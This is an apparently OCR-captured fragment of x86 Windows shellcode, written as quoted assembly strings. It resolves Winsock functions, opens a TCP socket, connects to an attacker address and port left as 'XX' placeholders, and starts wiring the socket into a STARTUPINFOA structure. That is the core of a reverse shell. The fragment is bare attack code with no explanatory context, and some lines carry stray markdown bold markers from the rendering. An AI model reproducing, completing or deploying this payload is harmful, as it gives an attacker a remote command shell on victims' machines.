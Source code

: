     "push 0x3bfcedcb;",
    "       call dword ptr [ebp+0x04]       ;",
    "       mov [ebp+0x1C], eax             ;",
    "push 0xadf509d9;",
    "       call dword ptr [ebp+0x04]       ;",
    "       mov [ebp+0x20], eax             ;",
    "push 0xb32dba0c;",
    "       call dword ptr [ebp+0x04]       ;",
    "       mov [ebp+0x24], eax             ;",
    "   call_wsastartup:                    ;",
    "       mov eax, esp                    ;",
    "       xor ecx, ecx                    ;",
    "       mov cx, 0x590                   ;",
    "       sub eax, ecx                    ;",
    "       push eax                        ;",
    "       xor eax, eax                    ;",
    "       mov ax, 0x0202                  ;",
    "       push eax                        ;",
    "       call dword ptr [ebp+0x1C]       ;",
    "   call_wsasocketa:                     ",
    "       xor eax, eax                    ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       mov al, 0x06                    ;",
    "       push eax                        ;",
    "       sub al, 0x05                    ;",
    "       push eax                        ;",
    "       inc eax                         ;",
    "       push eax                        ;",
    "       call dword ptr [ebp+0x20]       ;",
    "   call_wsaconnect:                     ",
    "       mov esi, eax                    ;",
    "       xor eax, eax                    ;",
    "       push eax                        ;",
    "       push eax                        ;",
    **"      push 0xXX31a8XX   ;",
    "      mov ax, 0xXXXX ;",**
    "       shl eax, 0x10                   ;",
    "       add ax, 0x02                    ;",
    "       push eax                        ;",
    "       push esp                        ;",
    "       pop edi                         ;",
    "       xor eax, eax                    ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       add al, 0x10                    ;",
    "       push eax                        ;",
    "       push edi                        ;",
    "       push esi                        ;",
    "       call dword ptr [ebp+0x24]       ;",
    "   create_startupinfoa:                 ",
    "       push esi                        ;",
    "       push esi                        ;",
    "       push esi                        ;",
    "       xor eax, eax                    ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       mov al, 0x80                    ;",
    "       xor ecx, ecx                    ;",
    "       mov cl, 0x80                    ;",
    "       add eax, ecx                    ;",
